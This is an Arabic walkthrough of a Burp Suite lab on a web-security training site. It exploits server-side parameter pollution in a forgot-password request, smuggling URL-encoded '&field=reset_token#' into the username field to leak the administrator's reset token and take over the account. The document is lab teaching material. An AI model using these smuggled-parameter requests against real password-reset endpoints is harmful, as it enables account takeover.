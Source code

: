 
---

# حل لاب Burp Suite - إعادة تعيين كلمة المرور

## المقدمة
الهدف من اللاب ده هو استغلال ثغرة في خاصية إعادة تعيين كلمة المرور الخاصة بمستخدم المسؤول في التطبيق باستخدام Burp Suite. هنشوف إزاي ممكن نتعامل مع الطلبات ونتلاعب فيها لتجاوز عملية التحقق والوصول إلى إعادة تعيين كلمة المرور.

## الخطوات

### 1. **تفعيل خاصية إعادة تعيين كلمة المرور للمسؤول**
- افتح **Burp Suite** واستخدم المتصفح المدمج في Burp.
- قم بتفعيل عملية **إعادة تعيين كلمة المرور** لحساب المسؤول.

### 2. **استعراض الطلبات في HTTP History**
- اذهب إلى **Proxy > HTTP History** ولاحظ وجود طلب `POST /forgot-password` والملف JavaScript `/static/js/forgotPassword.js`.

### 3. **إرسال الطلب إلى Repeater**
- اضغط بالزر الأيمن على طلب `POST /forgot-password` واختر **Send to Repeater**.

### 4. **إرسال الطلب للتحقق من الاستجابة**
- في تبويب **Repeater**، أعد إرسال الطلب للتحقق من أن الاستجابة ثابتة.
```http
POST /forgot-password HTTP/2
Host: 0a5000c50469d0a78111a26700d200ba.web-security-academy.net

csrf=DtiMbvYfTJRsUzI7FNdbXalncO9Nw3Qg&username=administrator
```
### 5. **تغيير قيمة المعامل username**
- غير قيمة المعامل `username` من `administrator` إلى اسم مستخدم غير صالح مثل `administratorx` ثم أرسل الطلب.
- ستلاحظ رسالة خطأ تقول "Invalid username".
```http
POST /forgot-password HTTP/2
Host: 0a5000c50469d0a78111a26700d200ba.web-security-academy.net

csrf=DtiMbvYfTJRsUzI7FNdbXalncO9Nw3Qg&username=administratorx
```
### 6. **محاولة إضافة معامل جديد في الطلب**
- حاول إضافة زوج آخر من المعاملات باستخدام علامة `&` URL-encoded مثل:
```http
POST /forgot-password HTTP/2
Host: 0a5000c50469d0a78111a26700d200ba.web-security-academy.net

csrf=DtiMbvYfTJRsUzI7FNdbXalncO9Nw3Qg&username=administrator%26x=y
```

- لاحظ أن الخادم يرسل رسالة "Parameter is not supported".

### 7. **تقليص سلسلة الاستعلام باستخدام #**
- حاول تقليص الاستعلام باستخدام الرمز `#` URL-encoded:
```http
POST /forgot-password HTTP/2
Host: 0a5000c50469d0a78111a26700d200ba.web-security-academy.net

csrf=DtiMbvYfTJRsUzI7FNdbXalncO9Nw3Qg&username=administrator%23
```

- ستلاحظ أن الخادم يرسل رسالة "Field not specified".

### 8. **إضافة معمل `field` غير صالح**
- أضف معامل `field` بقيمة غير صالحة ثم قم بتقليص سلسلة الاستعلام بعده مثل:
```http
POST /forgot-password HTTP/2
Host: 0a5000c50469d0a78111a26700d200ba.web-security-academy.net

csrf=DtiMbvYfTJRsUzI7FNdbXalncO9Nw3Qg&username=administrator%26field=x%23
```

- ستلاحظ أن الخادم يرسل رسالة "Invalid field".

### 9. **محاولة التلاعب مع المعامل field باستخدام Intruder**
- اضغط بالزر الأيمن على طلب `POST /forgot-password` واختر **Send to Intruder**.
- في تبويب **Intruder**، قم بتحديد موضع الحمولة (payload) على قيمة المعامل `field`.
  - مثال على الحمولة:
  ```
  username=administrator%26field=§x§%23
  ```
- اختر **Add from list** تحت **Payload configuration** واختر قائمة **Server-side variable names** ثم ابدأ الهجوم.

### 10. **مراجعة النتائج**
- بعد إرسال الهجوم، ستلاحظ أن الطلبات التي تحتوي على الحمولة الخاصة بـ `username` و `email` ترجع استجابة **200**.

### 11. **تغيير قيمة المعامل field إلى email**
- غير قيمة `field` من `x#` إلى `email`:
  ```
  username=administrator%26field=email%23
  ```
- أرسل الطلب ولاحظ أن الاستجابة تعود كما كانت في البداية، مما يشير إلى أن `email` هو نوع حقل صالح.

### 12. **مراجعة ملف JavaScript `forgotPassword.js`**
- اذهب إلى **Proxy > HTTP History** وابحث عن ملف `forgotPassword.js`.
- ستلاحظ أن ملف JavaScript يحتوي على الرابط الخاص بمعامل **reset_token**.

```javascript
const queryString = window.location.search;
const urlParams = new URLSearchParams(queryString);
const resetToken = urlParams.get('reset-token');
if (resetToken)
{
    window.location.href = `/forgot-password?reset_token=${resetToken}`;
}

```
### 13. **استخدام المعامل reset_token**
- في تبويب **Repeater**، غير قيمة المعامل `field` إلى `reset_token`:
```http
POST /forgot-password HTTP/2
Host: 0a5000c50469d0a78111a26700d200ba.web-security-academy.net

csrf=DtiMbvYfTJRsUzI7FNdbXalncO9Nw3Qg&username=administrator%26field=reset_token%23

```

- أرسل الطلب ولاحظ أن هذا يعطيك **reset_token**.

### 14. **إعادة تعيين كلمة المرور**
- في المتصفح المدمج بـ Burp، اذهب إلى الرابط الخاص بإعادة تعيين كلمة المرور:
  ```
  /forgot-password?reset_token=ry3d1ut95q0u92wkk4igj02dz7g98qfq
  ```
- ضع الـ **reset_token** في الرابط وقم بتعيين كلمة مرور جديدة.

### 15. **تسجيل الدخول وحل اللاب**
- بعد تعيين كلمة المرور الجديدة، قم بتسجيل الدخول كمستخدم **المسؤول**.
- اذهب إلى لوحة التحكم **Admin panel** وقم بحذف المستخدم **carlos** لحل اللاب.

---

## الخاتمة
اللاب ده بيعلمنا إزاي نقدر نستخدم Burp Suite لاستغلال ثغرات في خاصية إعادة تعيين كلمة المرور للمستخدمين في تطبيقات الويب. من خلال فهم كيفية التلاعب بالطلبات، نقدر نكتشف ثغرات ونستغلها عشان نتجاوز عملية الأمان.

---
